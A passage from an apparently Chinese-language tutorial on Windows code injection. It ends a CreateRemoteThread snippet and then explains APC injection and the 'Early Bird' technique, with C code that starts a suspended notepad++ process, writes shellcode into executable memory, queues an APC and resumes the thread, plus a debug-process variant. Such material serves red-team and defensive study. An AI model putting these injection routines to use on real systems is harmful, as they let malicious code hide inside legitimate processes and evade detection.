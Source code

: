 在另一进程中创建线程启动

```
HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpMapAddressRemote, NULL, 0, NULL);
```

##### 五 APC注入

APC（异步过程调用）， APC是一个链状的数据结构，可以让一个线程在其本应该的执行步骤前执行其他代码，每个线程都维护这一个APC链。当线程从等待状态苏醒后，会自动检测自己得APC队列中是否存在APC过程。

Early Bird本质上是一种APC注入与线程劫持的变体，由于线程初始化时会调用ntdll未导出函数 NtTestAlert，NtTestAlert是一个检查当前线程的 APC 队列的函数，如果有任何排队作业，它会清空队列。当线程启动时，NtTestAlert会在执行任何操作之前被调用。

* 创建一个挂起的进程
* 申请RWX shellcode内存空间
* 将APC插入到该进程的主线程
* 恢复挂起进程的线程

```
// 创建新的进程
LPCSTR lpApplication = "C:\\Program Files\\Notepad++\\notepad++.exe";
STARTUPINFOA sInfo = { 0 };
PROCESS_INFORMATION pInfo = { 0 };

CreateProcessA(lpApplication, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &sInfo, &pInfo);
HANDLE hProc = pInfo.hProcess;
HANDLE hThread = pInfo.hThread;

//分配并写入shellcode
LPVOID lpvShellAddress = VirtualAllocEx(hProc, NULL, sc_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
PTHREAD_START_ROUTINE ptApcRoutine = (PTHREAD_START_ROUTINE)lpvShellAddress;
WriteProcessMemory(hProc, lpvShellAddress, shellcode, sc_len, NULL);

pNtTestAlert NtTestAlert = (pNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));

// APC注入
QueueUserAPC((PAPCFUNC)ptApcRoutine, hThread, NULL);
ResumeThread(hThread);		//通过恢复线程执行APC过程
NtTestAlert();			//通过直接调用NtTestAlert执行APC过程
```

还有其他方式执行APC过程，如创建debug进程，调用DebugActiveProcessStop来执行APC过程

```
...
CreateProcessA(lpApplication, NULL, NULL, NULL, FALSE, DEBUG_PROCESS, NULL, NULL, &sInfo, &pInfo);
...
QueueUserAPC((PAPCFUNC)ptApcRoutine, hThread, NULL);
DebugActiveProcessStop(PId);
```

#### 分配内存
